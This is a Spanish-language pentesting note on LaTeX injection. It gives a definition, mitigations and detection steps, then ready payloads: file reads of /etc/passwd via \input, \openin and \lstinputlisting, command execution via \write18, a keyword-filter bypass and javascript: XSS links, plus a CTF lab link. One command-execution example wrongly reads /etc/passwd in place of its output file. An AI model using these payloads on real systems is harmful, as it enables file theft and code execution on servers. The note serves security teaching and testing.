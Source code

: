 # Inyecciones LaTeX

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #LaTeX #exploiting

***

## Definición

> Los ataques de **LaTeX Injection** implican la inserción de comandos LaTeX maliciosos en campos de entrada o contenido web, lo que puede llevar a la ejecución de código no autorizado o a la generación de contenido peligroso en documentos.
>
> Un ejemplo de este tipo de inyección podría ser un ataque que aproveche la capacidad de LaTeX para **incluir gráficos y archivos** en una aplicación. El atacante podría enviar un código en LaTeX que incluya un enlace a un archivo malicioso que podría infectar el servidor.
>
> Para evitar las inyecciones LaTeX, las aplicaciones web deben **validar y limpiar** adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX. Además es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red, además de monitorizar regularmente las actividades para detectar posibles inyecciones.

***

## Detección de vulnerabilidad

* **Revisar la funcionalidad LaTeX**: Identifica las partes de la aplicación web donde los usuarios pueden ingresar o cargar contenido LaTeX. Estas partes pueden ser campos de entrada, área de carga de archivos y más.
* **Entrada de prueba**: Introduce una fórmula LaTeX de prueba, para confirmar que se están procesando las fórmulas LaTeX.
* **Entrada maliciosa**: Intenta ingresar una fórmula LaTeX maliciosa que contenga comandos o secuencias de escape peligrosas. Algunos ejemplos de comandos LaTeX peligrosos incluyen `\input`, `\include`, `\includegraphics`, entre otros.
* **Observe la respuesta**: Examina la respuesta de la aplicación web. Si la página muestra errores, mensajes inesperados o se comporta de manera anormal después de ingresar la fórmula LaTeX maliciosa, es posible que hayas encontrado una vulnerabilidad de inyección de LaTeX.

***

## Explotación

Una vez descubierta la vulnerabilidad, podemos intentar inyectar distintos \[\[Payload]] para intentar conseguir información del sistema.

### Lectura de archivos

Para leer un archivo y mostrarlo en el archivo generado:

```
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Para leer una única línea de un archivo:

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Para leer múltiples líneas de un archivo:

```
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Esto puede petar, ya que hay caracteres que entran en conflicto con LaTeX. Para ello, podemos utilizar un script para mostrar únicamente las líneas que sí se puedan leer.

### Ejecución de comandos

```
\immediate\write18{id > output}
\input{output}
```

En el caso en el que no podamos ejecutar \input, podemos utilizar los distintos métodos vistos anteriormente para la lecutra del archivo output, por ejemplo:

```
\immediate\write18{id > output}
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

También puede ser que hayan distintos directorios que podemos encontrar, por ejemplo con \[\[Gobuster]], en el que se guardan dichos archivos. Entonces podríamos generar el output del comando como lo estábamos haciendo y acceder al subdirectorio, como /compile, para poder leerlo.

### Burlar restricción de entrada

Si hay palabras o comandos que están censurados, podemos tratar de realizar lo siguiente para intentar ignorar la restricción. Suponiendo que la palabra es "pepito", podemos descomponer la palabra en "pep" y "ito", de manera que si lo unimos conseguimos la palabra censurada:

```
\def\first{pep}
\def\second{ito}
\first\second
```

### \[\[XSS (Cross-Site Scripting)]]

Podemos tratar de dirigir el ataque a un \[\[XSS (Cross-Site Scripting)]], para probar si es vulnerable, podemos intentar los siguientes payloads:

```
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

***

## Ejemplos prácticos

* **Laboratorio LaTeX Injection**: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)
